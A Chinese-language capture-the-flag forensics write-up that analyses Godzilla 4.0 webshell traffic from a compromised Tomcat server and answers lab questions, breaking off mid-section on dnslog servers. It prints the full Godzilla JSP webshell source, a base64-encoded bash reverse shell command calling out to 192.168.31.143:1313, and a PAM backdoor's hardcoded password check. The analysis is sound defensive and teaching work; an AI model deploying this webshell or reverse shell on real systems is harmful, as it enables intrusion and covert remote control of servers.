参考文章：[玄机——第六章-哥斯拉4.0流量分析 wp](https://blog.csdn.net/administratorlws/article/details/142593664?ops_request_misc=%257B%2522request%255Fid%2522%253A%25220fc1b5b5668594769589373b8a9e83b4%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=0fc1b5b5668594769589373b8a9e83b4&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-5-142593664-null-null.nonecase&utm_term=%E7%8E%84%E6%9C%BA&spm=1018.2226.3001.4450)

# 什么是哥斯拉

**哥斯拉（Godzilla）** 是一款功能强大的 **WebShell** 工具，主要用于渗透测试和攻击中。它以其高度隐蔽性和丰富的功能而闻名，能够绕过传统的安全检测机制（如防火墙、IDS/IPS 等），并在目标服务器上执行各种恶意操作。

# 哥斯拉webshell的特征

- 哥斯拉Webshell通常以PHP、ASP、JSP等格式存在，文件名可能模糊不清，或使用常见文件名进行伪装。
- 哥斯拉通常会使用 **AES加密算法** 对请求和响应数据进行加密，默认密钥为 `e45e329feb5d925b`。

哥斯拉最大的特征：**全部类型的“shell”都能绕过，而且市面大部分的静态查杀、流量加密也是都能绕过市面绝大部分的流量Waf、而且Godzilla自带的插件是冰蝎、蚁剑不能比拟的。**

完整的哥斯拉shell的流程包括三个数据包

- 第一个请求包

上传包含恶意代码的文件或者写入恶意代码，这些代码也有可能是加密以后的代码

- 第一个响应包

该请求不含有任何Cookie信息，服务器响应报文不含任何数据，但是可能会设置PHPSESSID，后续请求都会自动带上该Cookie。（但是在后续的版本中有时候是没有设置cookie的）

- 第二个请求包

第二个请求报文发送很少数据（实际内容为测试连接命令test），返回少量数据（即ok）

- 第二个响应包

服务器响应数据解密过程并不复杂，先调用findStr函数删除服务器响应数据左右附加的混淆字符串（对于PHP_XOR_BASE64加密方式来说，前后各附加了16位的混淆字符），然后将得到的数据进行base64解码，最后再和shell连接密钥md5值的前16位按位异或，即完成响应数据的解密。

- 第三个请求包

运行哥斯拉命令执行代码中的getBasicsInfo函数得到的系统基本信息。

- 第三个响应包

将加密的系统基本信息进行解密返回到响应数据中

# 哥斯拉加密分析

1.我们首先就行在客户端生成webshell，webshell中通常有以下几个变量，包括：**密码、密钥、有效载荷、加密器**

- 密码：Post请求中的payload参数名称，例如我们这道题中hello.jsp中的pass="7f0e6f"，以及用于和密钥一起进行加密运算。
- 用于对请求数据进行加密，不过加密过程中并非直接使用密钥明文，而是计算密钥的md5值，然后取其**前16位**用于加密过程
- 有效载荷：分为`ASP`、`java`、`php`、`c#`四种类型的payload
- 加密器分为base64和raw、evalbase64三大类。例如我们下面的hello.jsp就是用的base64进行加密的
- 扰乱数据：用于自定义HTTP请求头，以及在最终的请求数据前后额外再追加一些扰乱数据，进一步降低流量的特征。

2.上传我们的webshell，文件名可自定义，根据选择的有效载荷不同，可以有jsp、php、aspx等文件格式

这个文件的内容，会出现在数据包的POST请求中。该文件在利用的时候会将密码、密钥的md5值前16位明文写入。

该文件的实现功能还有：将密码和密钥进行拼接，然后进行md5的计算。一共32位。服务器端返回数据的时候，会进行拼接。

**即服务器端返回数据 = md5前16位+加密数据+md5后16位。（加密数据可以通过对服务器端的解密算法进行解密）**

# 解题过程

```
请你登录服务器结合数据包附件来分析黑客的入侵行为

用户名：root

密码：xj@gsl4.0

SSH连接：ssh root@ip -p 222
```

附件是gsl4.0.pcap文件

## 1、黑客的IP是什么？

先过滤出来http的流量包



可以看到有大量的路径访问和404的响应，发现有一个恶意ip192.168.31.190在对服务器ip192.168.31.168进行目录扫描操作，估计就是黑客ip了



并且发现这个ip在尝试使用PUT协议上传了hello.jsp

```
flag{192.168.31.190}
```

## 2、黑客是通过什么漏洞进入服务器的？（提交CVE编号）

这个的话我们可以从几个点去入手

- 识别请求类型：


确定是否存在特定的 HTTP 请求（如 PUT 或 POST），这些请求通常用于上传恶意代码或进行远程执行。

- 分析请求内容：

查找特定的参数或 传入的payload，如含有 base64 编码的数据或任何可被反序列化的对象。分析这些内容是否能够触发已知漏洞。

- 查找特征：

确认是否有反序列化、命令注入或文件上传的迹象，这些通常是常见的攻击手法。

- 关注响应状态：

检查服务器的响应状态（如 204 No Content），这可能表明攻击成功，服务器没有返回错误信息。

然后我们来分析一下

找到了一个204状态码的数据包



### 204状态码

**204 No Content** 是HTTP协议中的一种状态响应码，表示服务器成功处理了客户端的请求，但响应报文中没有返回任何内容。

这符合哥斯拉shell的第一个响应包的结果，意味着我们的webshell上传成功了，然后我们来分析一下我们的webshell

### webshell分析

```javascript
<%! String xc="1710acba6220f62b"; 
String pass="7f0e6f";
String md5=md5(pass+xc); 
class X extends ClassLoader {
     public X(ClassLoader z) { 
         super(z); 
     }
     public Class Q(byte[] cb) { 
         return super.defineClass(cb, 0, cb.length); 
     }
 }
public byte[] x(byte[] s, boolean m) {
     try {
         javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
         c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES"));
         return c.doFinal(s);
     } catch (Exception e) {
         return null;
     }
 }
public static String md5(String s) {
    String ret = null;
    try {
        java.security.MessageDigest m = java.security.MessageDigest.getInstance("MD5");
        m.update(s.getBytes(), 0, s.length());
        ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase(); // 生成MD5哈希值
    } catch (Exception e) {}
    return ret;
}
public static String base64Encode(byte[] bs) throws Exception {
    Class base64;
    String value = null;
    try {
        base64 = Class.forName("java.util.Base64");
        Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
        value = (String) Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });
    } catch (Exception e) {
        try {
            base64 = Class.forName("sun.misc.BASE64Encoder");
            Object Encoder = base64.newInstance();
            value = (String) Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });
        } catch (Exception e2) {}
    }
    return value;
}

public static byte[] base64Decode(String bs) throws Exception {
    Class base64;
    byte[] value = null;
    try {
        base64 = Class.forName("java.util.Base64");
        Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
        value = (byte[]) decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
    } catch (Exception e) {
        try {
            base64 = Class.forName("sun.misc.BASE64Decoder");
            Object decoder = base64.newInstance();
            value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
        } catch (Exception e2) {}
    }
    return value;
}
<%
try {
    byte[] data = base64Decode(request.getParameter(pass)); // 获取并解码请求参数
    data = x(data, false); // 解密数据
    if (session.getAttribute("payload") == null) {
        session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data)); // 动态加载字节码
    } else {
        request.setAttribute("parameters", data);
        java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
        Object f = ((Class) session.getAttribute("payload")).newInstance();
        f.equals(arrOut);
        f.equals(pageContext);
        response.getWriter().write(md5.substring(0, 16));
        f.toString();
        response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true))); // 加密并返回结果
        response.getWriter().write(md5.substring(16));
    }
} catch (Exception e) {}
%>
```

代码结构分析：

这段代码是一个典型的 **JSP WebShell**，通常用于在目标服务器上执行恶意操作。

1. 声明部分

   ```
   <%! ... %>
   ```

   - 定义了类、方法和变量，用于加密、解密、Base64编码/解码、类加载等操作。

2. 执行部分

   ```
   <% ... %>
   ```

   - 处理HTTP请求，解析参数，执行恶意操作，并返回结果。

- `String xc="1710acba6220f62b";`：这是用于 AES 加密的密钥。
- `String pass="7f0e6f";`：用于参数传递的字符串，可能是攻击者用来获取数据的密码。
- `md5`：生成 `pass` 和 `xc` 的 MD5 哈希，用于后续验证或其他操作。

```javascript
 class X extends ClassLoader {
     public X(ClassLoader z) { 
         super(z); 
     }
     public Class Q(byte[] cb) { 
         return super.defineClass(cb, 0, cb.length); 
     }
 }
//定义了一个自定义的 ClassLoader，类名为X，通过调用 defineClass 方法，允许动态加载和执行字节码。
```

```javascript
public byte[] x(byte[] s, boolean m) {
    try {
         javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
         c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES"));
         return c.doFinal(s);
     } catch (Exception e) {
         return null;
     }
 }
//用于AES加密或解密数据，m 参数决定了是加密（true）还是解密（false）。
```

```javascript
public static String md5(String s) {
    String ret = null;
    try {
        java.security.MessageDigest m = java.security.MessageDigest.getInstance("MD5");
        m.update(s.getBytes(), 0, s.length());
        ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase(); // 生成MD5哈希值
    } catch (Exception e) {}
    return ret;
}
//MD5哈希，用于将输入的字符串 s 转换为一个 32 字符的 MD5 哈希值。
```

```javascript
public static String base64Encode(byte[] bs) throws Exception {
    Class base64;
    String value = null;
    try {
        base64 = Class.forName("java.util.Base64");
        Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
        value = (String) Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });
    } catch (Exception e) {
        try {
            base64 = Class.forName("sun.misc.BASE64Encoder");
            Object Encoder = base64.newInstance();
            value = (String) Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });
        } catch (Exception e2) {}
    }
    return value;
}

public static byte[] base64Decode(String bs) throws Exception {
    Class base64;
    byte[] value = null;
    try {
        base64 = Class.forName("java.util.Base64");
        Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
        value = (byte[]) decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
    } catch (Exception e) {
        try {
            base64 = Class.forName("sun.misc.BASE64Decoder");
            Object decoder = base64.newInstance();
            value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
        } catch (Exception e2) {}
    }
    return value;
}
//定义了base64的编码和解码方法
```

```javascript
<%
try {
    // 从HTTP请求参数中获取名为 `pass` 的值，并进行Base64解码
    byte[] data = base64Decode(request.getParameter(pass)); 
    // 使用AES解密 `data`，`false` 表示解密操作
    data = x(data, false); 
    // 检查 `session` 中是否已经存在 `payload` 属性
    if (session.getAttribute("payload") == null) {
        // 如果 `payload` 不存在，则动态加载 `data` 中的字节码，并将其存储在 `session` 中
        session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data)); 
    } else {
        // 如果 `payload` 存在，则将解密后的 `data` 存储在 `request` 的 `parameters` 属性中
        request.setAttribute("parameters", data);
        // 创建一个字节数组输出流，用于存储后续操作的结果
        java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
        // 从 `session` 中获取 `payload`，并通过反射创建其实例
        Object f = ((Class) session.getAttribute("payload")).newInstance();
        // 调用 `f` 的 `equals` 方法，将 `arrOut` 作为参数传递（可能是某种操作）
        f.equals(arrOut);
        // 调用 `f` 的 `equals` 方法，将 `pageContext` 作为参数传递（可能是某种操作）
        f.equals(pageContext);
        // 将 `md5` 字符串的前16个字符写入HTTP响应
        response.getWriter().write(md5.substring(0, 16));
        // 调用 `f` 的 `toString` 方法（可能是某种操作）
        f.toString();
        // 将 `arrOut` 中的字节数组进行AES加密，然后进行Base64编码，并写入HTTP响应
        response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true))); 
        // 将 `md5` 字符串的后16个字符写入HTTP响应
        response.getWriter().write(md5.substring(16));
    }
} catch (Exception e) {
    // 捕获所有异常，但不做任何处理（静默失败）
}
%>
```

1. 获取并解密数据
   - 从HTTP请求参数中获取数据，进行Base64解码和AES解密。
2. 动态加载字节码
   - 如果 `session` 中没有 `payload`，则将解密后的字节码动态加载为类，并存储在 `session` 中。
3. 执行恶意操作
   - 如果 `session` 中有 `payload`，则创建其实例，执行某些操作，并将结果加密后返回给客户端。
4. 返回结果
   - 将操作结果加密并写入HTTP响应，同时附加 `md5` 字符串的部分内容。

其实这里很明显是**Java Servlet反序列化漏洞**，因为这里有对字节流的处理和对恶意代码的加密解密

这里的代码还有个经典的哥斯拉加密方法，将MD5 哈希值作为验证作用放在我们传入的payload的两边进行掩盖痕迹的操作



所以我们搜索一下tomcat put协议上传漏洞就能得到漏洞CVE编号

```
flag{CVE-2017-12615}
```

并且在下一个流中我们可以看到



这里的响应中自动设置了cookie，并且cookie中有哥斯拉流量的明显特征就是他在SESSID的末尾有一个分号`（;）`

## 3、黑客上传的木马文件名是什么？(提交文件名)

上面就可以看到了，这里的木马就是我们的hello.jsp

```
flag{hello.jsp}
```

其实我觉得这道题应该放在前面而不是放在第二题的后面emmm，好奇怪的排序

## 4、黑客上传的木马连接密码是什么？



这个pass暗示就是密码，也符合哥斯拉webshell的密码参数，并且在后续的传参中也可以看到有对pass的传值,在后续的代码逻辑中，这个密码被用作解密或校验操作，因此它是上传木马后访问或控制的关键。

```
flag{7f0e6f}
```

## 5、黑客上传的木马解密密钥是什么？

### **什么是木马的解密密钥？**

木马的解密密钥是用于解密木马程序中的加密代码或数据的字符串或值。攻击者通常会将恶意代码加密，以避免被安全软件检测到。解密密钥的存在使得木马能够在受害者的系统中执行其真实功能，比如窃取数据或远程控制。通过使用正确的解密密钥，攻击者可以恢复木马的原始代码，进而操控受害者的设备。

这个怎么看呢？可以从源码里找到逻辑



然后看一下X



在` public byte[] x(byte[] s, boolean m) `方法中，xc 被用来初始化`javax.crypto.Cipher `对象，从而进行加密或解密操作。`c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES")); `这一行中，`xc.getBytes() `将字符串转换为字节数组，作为密钥传递给加密算法。所以xc就是我们需要找到的解密密钥了
xc对应的值是`String xc="1710acba6220f62b";`

```
flag{1710acba6220f62b}
```

## 6、黑客连接webshell后执行的第一条命令是什么？

题目问我们黑客连接“webshell”后执行的第一条命令是什么，那这里我们就需要深度去解析“哥斯拉流量”了，我们继续往下看

### 哥斯拉流量解密工具

参考文章的师傅推荐了一个**哥斯拉流量解密工具——BlueTeamTools**



然后先把我们之前找到的“密码”，以及“密钥”进行输入

借一张师傅的图片



然后就看数据包呗，把每个恶意请求都放进去解密了一下

发现了哥斯拉流量的一条测试流量



测试连接命令test，返回少量数据（即ok）





然后找到这条恶意请求





这里调用了**`getBasicsInfo`**方法，通常用于获取系统或应用程序的基本信息。并且返回了很多内容



但是我们这里需要找的是第一条命令而不是调用函数，所以这里并不是我们想找的答案

继续往下看



传入请求数据返回结果



```
cmdLine sh -c "cd "/";uname -r" 2>&1arg-3 2>&1executableFile shexecutableArgs -c "cd "/";uname -r" 2>&1arg-0 shargsCount 4arg-1 -carg-2 cd "/";uname -rmethodName execCommand
```

### 恶意代码分析

#### **命令执行的描述**

```
cmdLine sh -c "cd "/";uname -r" 2>&1
```

- **`cmdLine`**：表示这是一条命令行指令。

- **`sh`**：调用 `sh`（Shell）来执行命令。

- **`-c`**：`sh` 的参数，表示后面是一个字符串形式的命令。

- `"cd "/";uname -r"`

  ：要执行的命令：

  - `cd "/"`：切换到根目录。
  - `uname -r`：获取当前操作系统的内核版本。

- **`2>&1`**：将标准错误输出（`stderr`）重定向到标准输出（`stdout`）。

#### **参数分解**

```
arg-3 2>&1
```

- **`arg-3`**：这是命令的第 3 个参数（从 0 开始计数）。
- **`2>&1`**：重定向标准错误输出到标准输出。

```
executableFile sh
```

- **`executableFile`**：表示可执行文件的名称。
- **`sh`**：使用的可执行文件是 `sh`（Shell）。

```
executableArgs -c "cd "/";uname -r" 2>&1
```

- **`executableArgs`**：表示可执行文件的参数。
- **`-c "cd "/";uname -r" 2>&1`**：传递给 `sh` 的参数。

```
arg-0 sh
```

- **`arg-0`**：第 0 个参数，即可执行文件本身，这里是 `sh`。

```
argsCount 4
```

- **`argsCount`**：参数的总数，这里是 4 个。

```
arg-1 -c
```

- **`arg-1`**：第 1 个参数，这里是 `-c`。

```
arg-2 cd "/";uname -r
```

- **`arg-2`**：第 2 个参数，这里是 `cd "/";uname -r`。

```
methodName execCommand
```

- **`methodName`**：表示执行命令的方法名称，这里是 `execCommand`。

这段描述展示了一个通过 `sh` 执行命令的过程：

1. 调用 `sh`，并传递参数 `-c` 和一个命令字符串 `cd "/";uname -r`。
2. 命令字符串的作用是：
   - 切换到根目录（`cd "/"`）。
   - 获取当前操作系统的内核版本（`uname -r`）。
3. 标准错误输出被重定向到标准输出（`2>&1`）。
4. 参数总数为 4 个：
   - `arg-0`：`sh`。
   - `arg-1`：`-c`。
   - `arg-2`：`cd "/";uname -r`。
   - `arg-3`：`2>&1`。
5. 执行命令的方法名称为 `execCommand`。

既然这里有响应，那我们把响应也放进去看一下


所以**黑客第一次执行了命令——`uname -r`，想看看系统的内核版本信息有没有漏洞什么的，最后返回了系统信息——`4.19.0-25-amd64`；**

```
flag{uname -r}
```

可能有人就疑惑了，这里不是执行的`cd "/";uname -r`吗，为什么最终的答案是uname -r



## 7、黑客连接webshell时查询当前shell的权限是什么？

继续往下看黑客又进行了哪些命令吧





### 关于id命令

**`id`** 是一个在 Linux 和 Unix 系统中常用的命令，用于显示当前用户或指定用户的 **用户身份信息**。

`id` 命令的主要功能是显示以下信息：

- **用户 ID（UID）**：当前用户的唯一标识符。
- **组 ID（GID）**：当前用户所属的主组的唯一标识符。
- **所属组**：当前用户所属的所有组（包括主组和附加组）。
- **用户名**：当前用户的用户名。



uid=0(root)：当前用户的用户ID（UID）是0，表示该用户是超级用户（root）。在Unix/Linux系统中，UID 0代表系统的管理员，有完全的权限。

gid=0(root)：当前用户的组ID（GID）也是0，表示该用户属于root组。

groups=0(root)：列出了当前用户所属的组，这里只有root组。

可以看到是root用户，那么此时的shell的权限就是root了

```
flag{root}
```

## 8、黑客利用webshell执行命令查询服务器Linux系统发行版本是什么？

这里先补充一下基础知识

### Liunx常见的发行的系统版本

- Ubuntu：


用户友好，适合新手和开发者。

有多个版本，包括桌面版和服务器版。

- Debian：

以稳定性和自由软件为宗旨。

是许多其他发行版（如Ubuntu）的基础。

- Fedora：

由Red Hat支持，注重最新技术和开源软件。

提供较新版本的软件包。

- CentOS：

基于Red Hat Enterprise Linux（RHEL），适合企业使用。

提供长期支持和稳定性。

- Arch Linux：

以简单、灵活和用户控制为特点。

采用滚动更新模型，适合高级用户。

- openSUSE：

提供多种安装方式和桌面环境。

包括适合开发和服务器的版本。

- Linux Mint：

基于Ubuntu，设计友好，适合初学者。

提供多种桌面环境，如Cinnamon、MATE和XFCE。

- Slackware：

被认为是最古老的Linux发行版之一，注重稳定性和简单性。
适合那些喜欢手动配置系统的用户。

### 什么命令可以查看到当前的发行版本？

####  1.lsb_release命令

```
lsb_release -a
```

**这个命令会显示详细的版本信息，包括发行版名称、版本号等。**



**常用选项：**

- **`-a`**：显示所有信息（包括发行版 ID、描述、版本号和代号）。
- **`-d`**：仅显示描述信息。
- **`-r`**：仅显示版本号。
- **`-c`**：仅显示代号。

#### 2.`cat  /etc/os-release`

`/etc/os-release` 是一个包含发行版信息的配置文件。**对于大多数发行版，可以查看 `/etc/os-release` 文件**，**对于Debian和Ubuntu系统，可以查看 `/etc/issue` 或 `/etc/debian_version`**

#### 3.uname命令

```
uname -a
```

`uname` **这个命令会显示内核版本和其他系统信息，但不包括发行版的名称。**

那我们就往后找呗，反正命令也不多对吧，然后在下一个流就看到了





这里是查看了`/etc/os-release`文件去查看发行版本信息的，那我们看看响应



```
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

- `PRETTY_NAME`："Debian GNU/Linux 10 (buster)" 表示操作系统的名称和版本。

- `NAME`：操作系统的基本名称，这里是 Debian GNU/Linux。
- `VERSION_ID 和 VERSION`：指示版本号为10，代号为“buster”。
- `VERSION_CODENAME`：该版本的代号，用于在包管理和支持中识别。
- `ID`：表示操作系统为“debian”。
- `URLs`：提供了关于该发行版的主页、支持和错误报告的链接。

**所以“`Debian GNU/Linux 10 (buster)`”就是黑客查询到的发行版本**

```
flag{Debian GNU/Linux 10 (buster)}
```

## 9、黑客利用webshell执行命令还查询并过滤了什么？（提交整条执行成功的命令）

也是在下一个流找到了





这里解释一下命令：

`cd "/";rmp -qa | grep pam`：**`rpm -qa`**是列出系统中所有已安装的 RPM 包，而**`grep pam`**是从 `rpm -qa` 的输出中筛选出包含 **`pam`** 的行。

一开始以为是这个答案，后面提交却不正确，是为什么呢？



从刚刚的响应数据包解密中可以看到，这里的rmp命令是不存在的，也就是说刚刚的命令是执行失败了的，那我们继续往下看





解释一下命令：

- `cd "/";dpkg -l libpam-modules:amd64`：

`dpkg -l`

- 功能：列出系统中已安装的 Debian 包。
  - **`dpkg`**：Debian Package Manager，用于管理 Debian 格式的软件包。
  - **`-l`**：列出已安装的包。

`libpam-modules:amd64`

- 功能：指定要查询的包名。
  - **`libpam-modules`**：Pluggable Authentication Modules（PAM）的核心模块包，用于 Linux 系统的身份验证。
  - **`:amd64`**：指定包的架构为 64 位（适用于 64 位系统）。

黑客通过这个命令查询并过滤了与 `libpam-modules` 包相关的信息,指定包的架构为 64 位

然后我们看看响应



成功执行并回显，那么这个命令就是我们想找的查询命令了

```
flag{dpkg -l libpam-modules:amd64}
```

响应具体的解释可以去看我引用的师傅的文章，写的嘎嘎细！

## 10、黑客留下后门的反连的IP和PORT是什么？（IP:PORT)

### 反向连接（Reverse Connection）是什么

1. 定义：

在反向连接中，受害者的计算机（目标系统）主动向黑客控制的计算机（攻击者）发起连接。这与传统的连接方式不同，通常是攻击者直接连接到受害者的计算机。

### IP 和 PORT是什么

1. IP 地址：这是黑客控制的服务器或计算机的网络地址，黑客在其后门程序中配置此地址，以便目标系统能够找到并连接到黑客的机器。
2. 端口：这是指定的网络端口，用于接收连接请求。黑客可以选择常用端口（如 80、443）以避免引起怀疑，或者使用不常用的端口以减少被检测的风险。

看到这个我第一反应就是反弹shell，继续往下看就能看到一个数据包







解释一下命令：

- `echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMzEuMTQzLzEzMTMgMD4mMQ==|base64 -d|bash`：该命令首先输出一个经过Base64编码的字符串，然后通过管道符将输出转为后一个命令的输入，也就是将字符串进行base64解码，然后再通过管道符转向下一个命令 `bash` 执行。

就是反弹shell，这里也直接给出了ip和端口

```
flag{192.168.31.143:1313}
```

## 11、黑客通过什么文件留下了后门？

### 什么是后门文件？

**后门文件**（Backdoor File）是指一种恶意文件或程序，攻击者通过它可以在未经授权的情况下访问或控制系统。

### 后门文件的特点

1. **隐蔽性**：
   - 后门文件通常会被伪装成合法的文件或程序，或者隐藏在系统的正常文件中，以避免被用户或安全软件发现。
2. **持久性**：
   - 后门文件可能会通过修改系统配置文件、注册表或启动项，确保在系统重启后仍然能够运行。
3. **绕过安全机制**：
   - 后门文件通常会利用漏洞或特权提升技术，绕过系统的身份验证、防火墙或其他安全措施。
4. **远程控制**：
   - 后门文件通常与远程服务器通信，允许攻击者远程执行命令、窃取数据或控制系统。

然后我们继续看下面的数据包





这里使用了一个`getFiledirName` 方法

### `getFiledirName` 方法

`getFiledirName` 方法通常用于获取文件所在的目录路径或文件名。

但是在响应的目录文件中没看到什么明显的可疑文件



然后下面还对tmp目录下的文件名进行了查看



紧接着看到一个很长的数据包





文件路径：/tmp/pam_unix.so

/tmp 目录通常用于存储临时文件，黑客选择这个目录可能是为了避开监控，因为很多系统管理员不会频繁检查该目录。
pam_unix.so 是一个常见的动态链接库文件，通常与 PAM（可插入式认证模块）相关联。这个文件名暗示了它可能涉及系统的身份验证。
文件类型：NELF

NELF 是指该文件是一个可执行的 ELF（可执行和可链接格式）文件，通常用于 Linux 系统中的可执行程序和共享库。

### 后门目的

利用 PAM：

黑客可能利用这个库文件来创建一个后门，使得通过 PAM 进行身份验证时，黑客能够获得访问权限。这可以让他们在用户登录时获得控制权。
隐蔽性：

由于文件名与正常的系统文件相似，黑客可以更容易地隐藏他们的活动，降低被检测的风险。
持久性：

通过将后门与 PAM 模块关联，黑客可以在系统重启后仍然保持访问权限，因为 PAM 在系统启动和用户登录时都会被调用。

然后我们还可以看一下这里的响应



成功执行说明文件写入了

```
flag{pam_unix.so}
```

## 12、黑客设置的后门密码是什么？

我往后看的时候发现已经没有数据包了，那么既然这里问到了后门密码，然后我们找到了后门文件，肯定这时候后门密码就是在后门文件中了

师傅的分析：

**题目问我们黑客设置后门密码是什么？那刚刚我们已经找出黑客留下的后门文件——“pam_unix.so”了，那这里又问我们后门密码，那这里多半后门密码是在后门文件中，那这时候我们就要想办法把后门文件“pam_unix.so”给“down”下来进行分析**

如果需要下载下来的话，那我们这时候就需要连接服务器了



连上了我们直接去找那个文件

```
find / -name "pam_unix.so" 2>/dev/null
```



把他下载下来



**我们使用`file`命令来查看一下文件**，**在 Linux 中，`file` 命令用于确定文件的类型。它通过检查文件的内容而不仅仅是文件的扩展名来识别文件类型。**

```
file pam_unix.so
```



完全看不懂啊，只能看看师傅的分析：

- `ELF 64-bit LSB shared object`

1. `ELF`：表示该文件是以可执行和可链接格式（ELF）编写的，这是 Linux 和 Unix 系统中常用的可执行文件格式。
2. `64-bit`：表示该文件是为 64 位系统编译的。
3. `LSB`：代表 Linux Standard Base，指该文件遵循 Linux 标准基准的格式。
4. `shared object`：指这是一个共享对象文件，即可以被多个程序共享的库文件。

- `x86-64`

表示该文件是为 x86-64 架构（64 位 Intel/AMD 处理器）编译的。

- `version 1 (SYSV)`

表示这是第一版本的系统 V ABI（应用二进制接口），通常用于描述二进制接口规范。

- `dynamically linked`

表示该共享库是在运行时链接的，这意味着它可能依赖其他库，且在程序执行时会加载这些依赖。

- `BuildID[sha1]=b823fd038f580c704c3c8e26f383e82b7cdb5f59`

表示该文件的构建 ID，通常用于版本管理和调试。

- `with debug_info`

表示该文件包含调试信息。这意味着开发者可以在调试程序时获得更多上下文信息，比如函数名、变量名等。

- `not stripped`

表示该文件没有被“剥离”，也就是说，它保留了符号表和调试信息。通常在发布版本时，文件会被剥离，以减小大小和保护内部实现。

**`pam_unix.so` 是一个为 64 位 x86-64 架构编写的动态链接共享库，遵循 ELF 格式，包含调试信息且没有剥离。它是 PAM（可插入式认证模块）的一部分，用于处理基于 UNIX 的身份验证。**

好吧，这里还得用IDA，电脑重装后都没安装过，我们需要**丢进64位的IDA中进行分析**

**IDA（Interactive DisAssembler）是一个广泛使用的反汇编和逆向工程工具，主要用于分析和理解二进制文件。**

`pam_sm_authenticate` 是 PAM（可插拔认证模块）框架中的一个函数，主要用于用户身份验证。这个函数的作用是对用户提供的凭证（如密码）进行验证，通常是在 PAM 模块中实现的。

所以我们打开IDA后就直接找这个函数就行，借师傅一张图吧



代码分析（大师傅的）

- `pam_set_data(pamh, "unix_setcred_return", v6, setcred_free);`：将某些认证数据`（v6）`存储在 PAM 句柄中，便于后续使用。


- `authtok = pam_get_authtok();`：调用 pam_get_authtok() 获取用户的认证令牌（通常是密码）。

- 密码检查：如果 authtok 不存在，调用 `unix_verify_password(pamh, name, p, v4); `来验证密码。如果验证失败，记录日志并返回错误代码。

- 特殊密码检查：代码中有一行` v12 = strcmp("XJ@123", p) == 0;`，用于检查输入密码是否为 `"XJ@123"`。如果匹配成功，设置返回值 v8。

- 记录日志：使用 `pam_syslog` 记录关于用户名的错误信息，如果用户名不正确，返回相应的错误代码。

- 后门密码分析所以可以确认的是黑客设置的后门密码是：`"XJ@123"。`

- 为什么确定是：代码中明确比较用户输入的密码是否等于 `"XJ@123"`，并根据比较结果决定认证是否成功。如果这个密码被硬编码在代码中，黑客可能利用这个密码获得不当访问权限。

- 总结

代码的逻辑表明，黑客通过在身份验证逻辑中嵌入一个特定的密码 "XJ@123" 来创建后门，使得他们能够绕过正常的身份验证流程。

所以最终的密码就是

```
flag{XJ@123}
```

## 13、黑客的恶意dnslog服务器地址是什么？

### 什么是dnslog服务器？

**DNSLog 服务器** 是一种用于网络安全检测和渗透测试的工具，主要用于记录和捕获 DNS 查询请求。它通过模拟一个 DNS 服务器，接收并记录目标系统或应用程序发送的 DNS 请求，从而帮助安全研究人员或渗透测试人员检测漏洞或验证攻击是否成功。

------

#### **DNSLog 服务器的工作原理**

1. **域名生成**：
   - DNSLog 服务器会生成一个唯一的子域名（例如 `abc123.dnslog.cn`），并将该域名提供给用户或测试工具。
2. **DNS 查询触发**：
   - 用户或测试工具将生成的域名嵌入到目标系统或应用程序中（例如，通过漏洞利用、恶意代码注入等）。
   - 如果目标系统或应用程序解析了该域名，就会向 DNSLog 服务器发送 DNS 查询请求。
3. **记录和显示**：
   - DNSLog 服务器会记录所有接收到的 DNS 查询请求，并在 Web 界面上显示查询的详细信息（如查询时间、源 IP 地址、查询的域名等）。

------

#### **DNSLog 服务器的用途**

1. **漏洞检测**：
   - 用于检测目标系统是否存在 DNS 查询相关的漏洞（例如，DNS 注入、SSRF、XXE 等）。
   - 通过观察 DNSLog 服务器是否收到查询请求，可以判断漏洞是否被成功利用。
2. **无回显漏洞验证**：
   - 对于某些无回显的漏洞（例如 Blind SQL 注入、命令注入等），DNSLog 服务器可以作为外带通道，帮助验证漏洞是否存在。
3. **渗透测试**：
   - 在渗透测试中，DNSLog 服务器可以用于测试目标系统的 DNS 解析行为，或验证某些攻击是否成功。
4. **日志分析**：
   - 通过分析 DNSLog 服务器记录的查询请求，可以了解目标系统的网络行为或攻击者的活动轨迹。

------

#### **DNSLog 服务器的特点**

1. **无侵入性**：
